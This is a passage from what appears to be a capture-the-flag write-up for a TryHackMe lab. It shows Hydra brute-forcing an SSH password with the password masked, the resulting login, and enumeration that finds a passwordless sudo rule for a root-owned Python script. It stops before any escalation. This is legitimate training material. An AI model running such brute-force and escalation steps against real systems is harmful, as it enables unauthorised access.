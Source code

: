## ssh brute-force attack
```sh
[ATTEMPT] target library.thm - login "meliodas" - pass "XXXXX" - XX of 14344398 [child 1] (0/0)
[ATTEMPT] target library.thm - login "meliodas" - pass "XXXXX" - XX of 14344398 [child 2] (0/0)
[ATTEMPT] target library.thm - login "meliodas" - pass "XXXXXX" - XX of 14344398 [child 3] (0/0)
[22][ssh] host: library.thm   login: meliodas   password: xxxxxx
[STATUS] attack finished for library.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-11 23:39:46
```
### Notes:
- ssh password has been obtained 
# Post-Exploit Enum
## ssh login as `meliodas`
```sh
sami@bt:~/Documents/THM/CTFs/Library$ ssh meliodas@library.thm         
meliodas@library.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls
bak.py  user.txt
```
## manual enumeration
```sh
meliodas@ubuntu:~$ ls -hla
total 40K
drwxr-xr-x 4 meliodas meliodas 4.0K Aug 24  2019 .
drwxr-xr-x 3 root     root     4.0K Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3.7K Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4.0K Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4.0K Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
```